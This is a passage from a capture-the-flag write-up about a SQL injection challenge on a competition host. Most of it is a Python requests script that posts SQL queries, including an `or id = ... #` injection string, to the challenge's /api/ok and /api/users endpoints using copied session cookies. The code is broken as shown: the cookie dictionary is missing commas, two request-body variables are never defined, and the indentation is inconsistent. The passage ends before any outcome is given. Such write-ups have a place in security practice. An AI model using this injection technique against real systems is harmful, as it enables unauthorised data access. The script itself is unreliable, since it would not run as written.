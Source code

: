 There is a column named “lastOk” in the “users” table. Perhaps this is used to check whether your SQL query from the “ok” endpoint works or not?

### How about try sending a SQL query through the endpoint?

(We can use Burp/FireFox/Python to send the payload, if anyone knows how to do it with Chrome please @ me, in our case we use Python with the requests module because snake good.)

```python
import requests

# Since the "ok" endpoint is in /flag, that basically means 
# we need credentials in order to be able to send requests.

#yum
cookies = {
            'next-auth.csrf-token': 'Fill it in yourself.'
            'next-auth.callback-url': 'Fill it in yourself.'
            'next-auth.session-token': 'Fill it in yourself.',
	       }

#https requests headers
headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
            'Accept': '*/*',
            'Accept-Language': 'en-US,en;q=0.5',
            'Connection': 'keep-alive',
            'Content-Type': 'text/plain;charset=UTF-8',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
        }

# Simple function to get "lastOk" time before sending any SQL queries.
def get_last_ok():

		# Notice that "users" also has an API endpoint, we can basically send SQL requests
		# directly to /api/users to get data from the table, which is the same as doing it 
		# on the web. You can check the format again using Networking on your browser.
    user_res = requests.post('http://chal.firebird.sh:35020/api/users', cookies=cookies, headers=headers, data=data_for_users)
    
		# Parsing json
		user_res = user_res.json()
    current_time = user_res['tables'][0][0]['lastOk']
    return current_time

last_ok = get_last_ok()

# \' is used to treat ' as a string, instead of closing the brackets.
sql_for_flag = '{"ok": "SELECT \'femboys\'"}'

# SQL for getting just your account's "lastOk". 
# Replace the id with your account id.
sql_for_users = '{"query":"\'\' or id = 6969 #"}'

flag_response = requests.post('http://chal.firebird.sh:35020/api/ok', cookies=cookies, headers=headers , data=data)
user_response = requests.post('http://chal.firebird.sh:35020/api/users', cookies=cookies, headers=headers , data=data_for_users)
user_response = user_response.json()
new_ok = user_response['tables'][0][0]['lastOk']

# Checking whether the "lastOk" time was updated or not.
```
